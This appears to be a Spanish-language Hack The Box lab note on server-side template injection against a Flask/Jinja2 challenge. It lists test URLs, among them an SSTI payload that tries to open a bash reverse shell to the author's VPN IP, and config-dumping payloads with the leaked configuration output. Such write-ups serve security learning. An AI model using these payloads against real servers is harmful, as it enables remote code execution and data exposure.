 
Esta es mi IP a través de la VPN de HTB: 
10.10.14.128


Investigo:

What is SSTI ( Server-Side Template Injection)
https://kleiber.me/blog/2021/10/31/python-flask-jinja2-ssti-example/




Diversas pruebas, intento conseguir una shell inversa sin éxito:

http://157.245.42.82:30626/{{ config['RUNCMD']('bash -i >& /dev/tcp/10.10.14.128/12345 0>&1',shell=True) }}


http://157.245.42.82:30626/%7B%7B%20config.items()%7D%7D


The page 'dict_items([('ENV', 'production'), ('DEBUG', False), ('TESTING', False), ('PROPAGATE_EXCEPTIONS', None), ('PRESERVE_CONTEXT_ON_EXCEPTION', None), ('SECRET_KEY', None), ('PERMANENT_SESSION_LIFETIME', datetime.timedelta(days=31)), ('USE_X_SENDFILE', False), ('SERVER_NAME', None), ('APPLICATION_ROOT', '/'), ('SESSION_COOKIE_NAME', 'session'), ('SESSION_COOKIE_DOMAIN', None), ('SESSION_COOKIE_PATH', None), ('SESSION_COOKIE_HTTPONLY', True), ('SESSION_COOKIE_SECURE', False), ('SESSION_COOKIE_SAMESITE', None), ('SESSION_REFRESH_EACH_REQUEST', True), ('MAX_CONTENT_LENGTH', None), ('SEND_FILE_MAX_AGE_DEFAULT', datetime.timedelta(seconds=43200)), ('TRAP_BAD_REQUEST_ERRORS', None), ('TRAP_HTTP_EXCEPTIONS', False), ('EXPLAIN_TEMPLATE_LOADING', False), ('PREFERRED_URL_SCHEME', 'http'), ('JSON_AS_ASCII', True), ('JSON_SORT_KEYS', True), ('JSONIFY_PRETTYPRINT_REGULAR', False), ('JSONIFY_MIMETYPE', 'application/json'), ('TEMPLATES_AUTO_RELOAD', None), ('MAX_COOKIE_SIZE', 4093)])' could not be found


http://157.245.42.82:30626/%7B%7B%20config.from_object('os')%7D%7D


http://157.245.42.82:30626/%7B%7B%20config.items()%7D%7D
